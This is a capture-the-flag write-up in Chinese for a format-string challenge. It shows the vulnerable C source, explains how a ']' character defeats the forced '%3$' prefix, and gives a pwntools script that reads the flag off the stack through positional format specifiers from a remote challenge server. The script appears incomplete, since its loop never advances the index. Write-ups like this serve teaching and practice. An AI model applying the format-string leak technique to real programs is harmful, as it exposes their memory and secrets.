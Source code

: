 ```cpp title="chal.c"
    }
}

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    srand(time(NULL));
    int number = rand();
    int fd = open("/home/chal/flag.txt", O_RDONLY);
    char flag[0x100] = {0};
    read(fd, flag, 0xff);
    close(fd);
    
    char format[0x10] = {0};
    printf("What format do you want ? ");
    read(0, format, 0xf);
    check_format(format);

    char buffer[0x20] = {0};
    strcpy(buffer, "Format number : %3$");
    strcat(buffer, format);
    strcat(buffer, "d\n");
    printf(buffer, "Welcome", "~~~", number);

    return 0;
}
```

:::warning
在 `check_format` 讓我們只能輸`數字`跟`標點符號`，其他全部擋掉了。再來看一下我們輸入進去的 format 前後也被指定了: 
`%3$` + user_input + `d`
:::

這邊我的想法是需要截斷前面所以經過嘗試發現可以使用 `]` 當作截斷前面指令。(無效前面的 %3$)
截斷之後接下來就是要往後讀多少才可以碰到 flag 開檔後的 `fd`。

![image](https://hackmd.io/_uploads/B1UFljaGxx.png)

從這邊可以發現我拿的是第 3 個位置的資料得到 `185518987` 也就是 `0xB0ECB8B` 而它的記憶體位址在 `0xffffd0dc` 回推起始位置就是 **0xffffd0d0**，所以起始的 offset 是 **0x0d0**。

![image](https://hackmd.io/_uploads/S1o8-jafge.png)

:::important
回到 IDA 可以看到 `fd` 是在 offset **0x150**，也就是說從起始位址到 `fd` 開頭要 `0x150 - 0x0d0 = 80` 再去除 4 所以得到從 **20 開始** 可以讀取到 flag 資料，所以後面就一直往後讀到 `0x7d (})` 為止。
:::

```python title="exploit.py"
from pwn import *

i = 20
a = 0
flag = ""
prefix = "]%"
suufix = "$"

while a != "7D": 
    p = remote('chals1.ais3.org', 50960)
    temp = prefix + str(i) + suufix
    p.sendlineafter("What format do you want ? ", temp)
    p.recvuntil("Format number : %]")
    a = p.recv()
    flag += chr(int(a))
```